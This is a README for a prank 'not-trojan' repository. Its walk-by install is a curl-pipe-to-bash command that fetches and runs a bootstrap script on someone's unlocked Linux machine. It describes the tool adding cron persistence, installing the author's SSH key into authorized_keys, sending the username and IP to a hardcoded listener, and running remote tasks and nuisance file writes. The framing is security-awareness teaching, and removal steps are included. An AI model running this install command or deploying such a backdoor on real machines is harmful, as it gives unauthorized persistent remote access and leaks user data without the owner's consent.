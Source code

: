 # Walk-by install:

curl -s -L https://raw.githubusercontent.com/eadanila/not-trojan/master/bootstrap.sh | bash

---
# Description

A small collection of scripts I once used remind people to lock their PCs when they walk away. By example.

I'd call it a Trojan but it doesn't trick anyone into anything. It's like if the Greeks just walked
into Troy because the Trojans left the gate unlocked while they went to the kitchen for a coffee.

The walk-by install adds a user cron job to clone to full repo so that it can be installed in under 10
seconds of access to the machine reardless of repos size or network speed.

Once fully installed, it installs my SSH key into the machine's authorized keys file, phones home with
the username and IP address, and runs every minute via cron to do configured tasks. It does not attempt
to gain any higher priviliges than the user it runs as or to get the user's password.

Listening server was just a manually run `woof -U` instance. IP is hardcoded in `et-phone-home.sh`.

It carries out nuisance actions, like writing new files into random directories in `$HOME`. Written files
are tracked for easy removal. I'm not a monster. I just want to prove what can be done with very little
access to an unlocked Linux machine.

Remote control over SSH will only work on LAN unless the target has opened their firewall to SSH. Otherwise,
it should still work by pulling updates and executing via cron. 
# Removal

You can remove all traces of the install by:
1. Edit your crontab to remove all lines ending with `#lsconfig-*`
2. Remove all the files listed in `$HOME/.config/lsconfig/state/hello.log` 
    - `rm $(cat $HOME/.config/lsconfig/state/hello.log)`
    - It should be fine, but MAKE SURE THIS FILE DOESN'T HAVE ANY UNEXPECTED ENTRIES FIRST 
3. Remove `$HOME/.config/lsconfig`
4. Set things like your wallpaper back to normal
